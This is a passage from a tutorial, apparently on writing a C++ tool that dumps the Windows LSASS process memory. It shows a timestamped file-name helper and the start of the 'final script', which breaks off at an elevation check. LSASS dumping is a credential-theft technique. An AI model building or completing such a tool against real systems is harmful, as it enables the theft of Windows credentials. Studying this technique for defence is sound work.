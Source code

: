 From [the documentation of the tm struct](https://www.cplusplus.com/reference/ctime/tm/) we get the fields we want, in this case the day (*tm_mday*), month (*tm_mon*, we add 1 because it represents the months from January from 0 to 11), year (*tm_year*, we add 1900 because it represents the years from that date), hour (*tm_hour*) and minutes (*tm_minutes*, we append a "0" in case it is less than 10).

To create the final string we will use a Stringstream, *filenamestream*, to concatenate the strings and integers. In case you want to customize the file name, this is the object you should change.


```cpp
string getFileName(string hostname) {
	string extension = ".txt";
	time_t t = time(NULL);
	tm* timePtr = localtime(&t);	
	string minutes;
	if (timePtr->tm_min < 10) {
		minutes = "0" + std::to_string(timePtr->tm_min);
	}
	else {
		minutes = std::to_string(timePtr->tm_min);
	}
	stringstream filenamestream;
	string filename;
	filenamestream << hostname;
	filenamestream << "_";
	filenamestream << timePtr->tm_mday;
	filenamestream << "-";
	filenamestream << timePtr->tm_mon + 1;
	filenamestream << "-";
	filenamestream << timePtr->tm_year + 1900;
	filenamestream << "-";
	filenamestream << timePtr->tm_hour;
	filenamestream << minutes;
	filenamestream << extension;
	filenamestream >> filename;
	return filename;
}
```

<br>

## Final script

The resulting script (which can be found also in [this Github repo](https://github.com/ricardojoserf/LsassDumper)) is:

```cpp
#pragma comment (lib, "Dbghelp.lib")
#pragma comment (lib, "Ws2_32.lib")
#pragma warning(disable : 4996)
#include <windows.h>
#include <DbgHelp.h>
#include <iostream>
#include <TlHelp32.h>
#include <sstream>
#define UNCLEN 512
using namespace std;


BOOL IsElevatedProcess()
{
	BOOL is_elevated = FALSE;
	HANDLE token = NULL;
	if (OpenProcessToken(GetCurrentProcess(), TOKEN_QUERY, &token))
	{
```